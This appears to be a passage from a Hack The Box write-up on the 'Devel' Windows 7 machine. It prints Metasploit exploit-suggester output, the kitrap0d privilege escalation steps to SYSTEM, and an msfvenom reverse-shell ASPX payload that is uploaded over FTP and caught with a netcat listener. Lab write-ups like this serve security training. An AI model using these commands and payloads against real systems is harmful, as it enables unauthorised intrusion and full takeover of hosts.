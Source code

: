 We know we are on windows 7, the owner is babis and the hostname is devel

- WinPeas does not work
- Powershell does not work
- We can see what exploit are suggested through meterpreter exploit suggester
```
meterpreter > run post/multi/recon/local_exploit_suggester
[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 40 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

## Privilege escalation with Meterpreter

- `use exploit/windows/local/ms10_015_kitrap0d`
-  Set the session to the session you have on the target (mine is 7) `set session 7`
-  Set the lhost `set lhost tun0`
-  set the lport to a free port I am going to use 5556 `set lport 5556`
- `exploit`

And it worked
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## Initial foothold with netcat

- `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=5555 -f aspx > netcat.aspx`
- We put our file in the ftp `put netcat.aspx`
- We launch our listener and catch our shell by browsing to the file `rlwrap nc -lvp 5555 `
```
┌──(root💀kali)-[~/Documents/hackthebox/devel]
└─# rlwrap nc -lvp 5555                                                  
listening on [any] 5555 ...
10.10.10.5: inverse host lookup failed: Unknown host
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.5] 49239
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```
